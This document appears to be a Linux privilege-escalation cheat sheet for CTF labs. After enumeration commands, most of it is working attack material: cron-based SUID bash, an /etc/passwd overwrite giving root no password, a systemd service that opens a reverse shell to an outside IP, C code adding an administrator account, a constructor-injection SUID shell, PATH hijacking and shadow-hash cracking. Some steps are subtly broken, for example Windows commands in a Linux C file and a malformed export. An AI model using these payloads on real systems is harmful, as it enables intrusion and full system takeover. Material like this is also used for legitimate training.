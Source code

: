 ## Good Reads
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
https://github.com/janithmalinga/PayloadsAllTheThings
https://book.hacktricks.xyz/linux-unix/privilege-escalation
```
## Manual Enumeration

## Enumerate User Info

### Logged in user
```
id
whoami
pwd
```

### Find OS version
```
cat /etc/*-release
uname -a
lsb_release -a
```

### Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
### curently running processes
```
ps aux
```
### What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## Enumerate Network

### Find IP and associated IPs
```
ifconfig
ip a
```

### Open Ports
```
netstat -ano
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## Automated Enumeration
```
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## Exploiting scheduled tasks

### User editable cronjobs
```
crontab -l
cat /etc/crontab
```

### Application based cron jobs
```
ls -all /etc/cron.d
```
### if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

### Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

### Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / -type f -perm -04000 -ls 2> /dev/null
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

### systemctl has SUID set
Create root.service file
```
[Unit]
Description=get root privilege

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/9999 0>&1'

[Install]
WantedBy=multi-user.target
```
Transfer it to CTF and runfollowing command
```
/bin/systemctl enable /home/pepper/root.service
```

### If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```

### If you found a shared object, create this c file to inject
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

## Environment variable injection

### If you find a file without full path and having SIUD bit set, create this c file,
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

### Set environment path to /tmp
```
export $PATH=/tmp:$PATH
```

### crack shadow hash using john
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
